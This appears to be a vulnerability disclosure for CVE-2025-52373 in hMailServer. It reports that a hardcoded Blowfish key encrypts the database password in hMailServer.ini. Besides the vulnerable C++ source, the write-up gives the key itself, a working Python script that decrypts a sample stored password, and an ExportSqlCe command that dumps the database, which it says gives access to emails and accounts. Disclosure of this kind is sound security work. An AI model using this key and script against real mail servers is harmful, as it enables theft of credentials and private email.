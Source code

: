 # CVE-2025-52373

**Suggested description:** Use of hardcoded cryptographic key in `BlowFish.cpp` in hMailServer 5.8.6 and 5.6.9-beta allows attacker to decrypt passwords used in database connections from `hMailServer.ini` config file.

**VulnerabilityType Other:** CWE-321: Use of Hard-coded Cryptographic Key

**Vendor of Product:** hMailServer

**Affected Product Code Base:** hMailServer - 5.8.6, 5.6.9-beta

**Affected Component:** `hmailserver/source/Server/Common/Util/BlowFish.cpp`, `hMailServer.ini`

**Attack Type:** Local

**Impact Information Disclosure:** true

**Attack Vectors:** to exploit this, someone can simply adapt the existing functions in the source code into a tool to decrypt passwords that are used in connection strings to SQL servers

**Reference:**
- hMailServer Exploit: https://github.com/mojibake-dev/hMailEnum
- Generic Exploit: https://github.com/mojibake-dev/belskysGambit
- Blog Post: https://mojibake.dev/belskysgambit
- Application: https://github.com/hmailserver/hmailserver

**Discoverer:** Eli Samara

**Detailed Explanation:**

Hardcoded password is set
``` cs
#define NOT_SECRET_KYE "THIS_KEY_IS_NOT_SECRET"
```
> line 20 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

and used 
```cs
   BlowFishEncryptor::BlowFishEncryptor ()
   {
 	   PArray = new DWORD [18] ;
 	   SBoxes = new DWORD [4][256] ;

      String sKey = NOT_SECRET_KYE;
      int iKeyLen = sKey.GetLength();
      BYTE *buf = new BYTE[iKeyLen + 1];
      memset(buf, 0, iKeyLen + 1);
      strncpy_s((char*) buf, iKeyLen+1, Unicode::ToANSI(sKey), iKeyLen);
      
      Initialize(buf, iKeyLen );
     
      delete [] buf;
   }
```
> line 29 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

This is then used to encrypt the database `Password` under `[Database]` in `hMailServer.INI`. 

The flow looks something like this. 
```
hMailServerInnoExtension.iss
	DBSetupQuick.exe
		InitializeInternalDatabase()
			CreateInternalDatabase()
				PasswordGenerator::Generate()
					ini_file_settings_->SetPassword(sPassword);
						WriteIniSetting_();
					
```

When the installer is told to create an internal database it runs the helper program DBSetupQuick.exe which performs a flow demonstrated above.

The value field written looks like this. `Password=fb8f1b06f59cf34cf99164835d6ae736`

when fed to this script 
```python
from Crypto.Cipher import Blowfish

def blowfish_decrypt_le(cipher_hex: str, key: bytes = b"THIS_KEY_IS_NOT_SECRET") -> str:
    # Convert hex to bytes
    ct = bytes.fromhex(cipher_hex)
    bs = Blowfish.block_size  # 8 bytes per block
    
    # Initialize ECB cipher
    cipher = Blowfish.new(key, Blowfish.MODE_ECB)
    plaintext_bytes = b''

    # Process each 8-byte block
    for i in range(0, len(ct), bs):
        block = ct[i:i+bs]
        # Reverse each 4-byte word to match encryption pre-transform
        le_block = block[:4][::-1] + block[4:][::-1]
        # Decrypt
        dec_le = cipher.decrypt(le_block)
        # Reverse words back to big-endian
        dec_be = dec_le[:4][::-1] + dec_le[4:][::-1]
        plaintext_bytes += dec_be

    # Strip trailing zero-byte padding
    plaintext_bytes = plaintext_bytes.rstrip(b'\x00')
    # Decode to UTF-8
    return plaintext_bytes.decode('utf-8', errors='ignore')


# Example self-test
if __name__ == "__main__":
    test_ct = "fb8f1b06f59cf34cf99164835d6ae736"
    recovered = blowfish_decrypt_le(test_ct)
    print("Recovered plaintext:", recovered)
```

I retrieve the value `Recovered plaintext: 5C7662397665`

This then unlocks the database and allows me to export it as a more readable .sql script that will generate a sqlite db using this tool https://github.com/ErikEJ/SqlCeToolbox

```cmd
> .\ExportSqlCe.exe "Data Source=hMailServer.sdf;Password=5C7662397665;" hMailServer.sql sqlite
Initializing....
Generating the tables....
Generating the data....
Generating the indexes....
Sent script to output file(s) : hMailServer.sql in 633 ms
```

With this you now have access to emails and account information.
